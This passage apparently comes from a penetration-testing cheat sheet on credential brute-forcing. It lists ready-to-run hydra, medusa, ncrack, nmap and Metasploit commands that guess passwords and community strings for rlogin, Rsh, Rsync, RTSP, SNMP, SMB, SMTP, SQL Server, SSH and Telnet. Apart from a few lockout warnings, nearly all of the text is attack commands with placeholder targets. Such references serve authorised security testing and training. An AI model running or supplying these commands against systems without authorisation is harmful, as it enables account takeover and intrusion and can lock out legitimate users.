 ```
hydra -l <username> -P <password_file> rlogin://<Victim-IP> -v -V
```
## Rsh
```
hydra -L <Username_list> rsh://<Victim_IP> -v -V
参考链接：rsh-grind | pentestmonkey
```
## Rsync
```
nmap -sV --script rsync-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 873 <IP>
```
## RTSP
```
hydra -l root -P passwords.txt <IP> rtsp
```
## SNMP
```
msf> use auxiliary/scanner/snmp/snmp_login
nmap -sU --script snmp-brute <target> [--script-args snmp-brute.communitiesdb=<wordlist> ]
onesixtyone -c /usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt <IP>
hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt target.com snmp
```
## SMB
```
nmap --script smb-brute -p 445 <IP>
hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1
```
## SMTP
```
hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V
hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V #Port 587 for SMTP with SSL
```
## SQL Server
```
#Use the NetBIOS name of the machine as domain
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> mssql
medusa -h <IP> –U /root/Desktop/user.txt –P /root/Desktop/pass.txt –M mssql
nmap -p 1433 --script ms-sql-brute --script-args mssql.domain=DOMAIN,userdb=customuser.txt,passdb=custompass.txt,ms-sql-brute.brute-windows-accounts <host> #Use domain if needed. Be carefull with the number of password in the list, this could block accounts
msf> use auxiliary/scanner/mssql/mssql_login #Be carefull, you can block accounts. If you have a domain set it and use USE_WINDOWS_ATHENT
```
## SSH
```
hydra -l root -P passwords.txt [-t 32] <IP> ssh
ncrack -p 22 --user root -P passwords.txt <IP> [-T 5]
medusa -u root -P 500-worst-passwords.txt -h <IP> -M ssh
```
## Telnet
```
hydra -l root -P passwords.txt [-t 32] <IP> telnet
ncrack -p 23 --user root -P passwords.txt <IP> [-T 5]
medusa -u root -P 500-worst-passwords.txt -h <IP> -M telnet
```